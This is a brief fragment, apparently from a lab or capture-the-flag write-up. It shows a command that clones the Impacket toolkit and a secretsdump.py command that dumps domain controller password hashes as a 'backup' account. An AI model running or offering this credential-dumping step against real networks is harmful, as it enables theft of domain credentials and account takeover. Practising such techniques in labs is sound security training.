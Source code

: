 `git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket`

secretdump.py 

`python3 secretsdump.py -just-dc backup@10.10.122.250`

